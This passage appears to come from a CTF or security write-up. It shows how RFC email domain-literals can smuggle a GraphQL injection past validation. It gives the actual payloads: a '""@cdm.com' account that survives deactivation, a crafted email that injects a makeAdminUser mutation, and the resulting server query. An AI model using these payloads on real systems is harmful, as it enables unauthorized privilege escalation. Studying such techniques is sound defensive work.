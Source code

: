 ```C
email = local-part "@" ( domain | [ domain-literal ] )
```

According to the RFC : 

A domain can be enclosed in square brackets `[...]` and treated as a **domain-literal**.

<br>

A **domain-literal**:

- Must start with `[`and end with `]`
- **Can** include any printable character except `[ , ] or \`

So what does this mean? This means we have a chance to use 2 double quotes, since inside the domain literal we can use it as much as we want, for example, this is valid: 

- `user@[" anything*!? " can be ){ " In _ here ! "]`

So let's go back to our injection, it needs to look like this: 

```python
"}){success} makeAdminUser(user: {email:"someone@somewhere.com"} ){  #"
```

So lets place it inside a domain-literal 

```python
local@[ "}){success} makeAdminUser(user: {email:"someone@somewhere.com"} ){  #" ]
```

What the RFC parser sees ? 

``` python
	local-part : local
	@
	domain-literal : [...]
```


So it is **accepted**, we now just need to create a user with an email that will break the deactivation (so he does not get deactivated), then elevate it to admin by registering another user with our payload

<br>

To break the deactivation we have seen is trivial, just create a user

- `""@cdm.com`

Now he **stays** active, and we simply register another user with our payload  

- ``
local@["}){success} makeAdminUser(user:{email:"\"\"@cdm.com"}) { #"]
``

This makes the server do the following mutation 

```python
mutation {
            deactivateUser (user: {email: "local@["}) {success} 
            makeAdminUser(user:{email:"\"\"@cdm.com"}) {  #"]{
                success
            }
        }
```
 